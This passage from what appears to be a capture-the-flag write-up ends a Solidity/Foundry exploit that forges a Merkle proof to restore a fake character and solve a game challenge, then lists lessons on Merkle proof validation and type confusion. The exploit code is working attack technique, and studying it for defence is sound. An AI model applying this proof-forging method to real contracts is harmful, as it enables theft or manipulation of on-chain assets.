 ```solidity
            keccak256(
                abi.encodePacked(
                    fakeProof[0], fakeCharacterMerkle
                )
            ) == monster0.merkleizeMonster()
        );
        
        // Complete the proof
        fakeProof[1] = monster1.merkleizeMonster();
        fakeProof[2] = keccak256(abi.encodePacked(monster0.merkleizeMonster(), fakeProof[1]));
        for(uint i = 3; i < 8; i++) {
            fakeProof[i] = keccak256(abi.encodePacked(fakeProof[i-1], fakeProof[i-1]));
        }
        fakeProof[8] = charactersMerkle;
        fakeProof[9] = proof[8];

        // Restore fake character and kill Jenkins
        vm.roll(block.number + 1);
        world.restoreCharacter(fakeCharacter, fakeProof);
        vm.roll(block.number + 1);
        world.fightMonster(513, 0);
        require(challenge.isSolved());
    }
}
```

## Key Takeaways

1. Merkle tree implementations need careful validation of node types and proof paths
2. Array indices used in merkle paths should be strictly bounded
3. Data structures that share similar layouts can lead to unexpected type confusion
4. When dealing with merkle proofs, always verify that paths can't be manipulated by user input

The vulnerability demonstrates how even a seemingly secure backup system can be compromised when merkle tree implementation details aren't properly considered.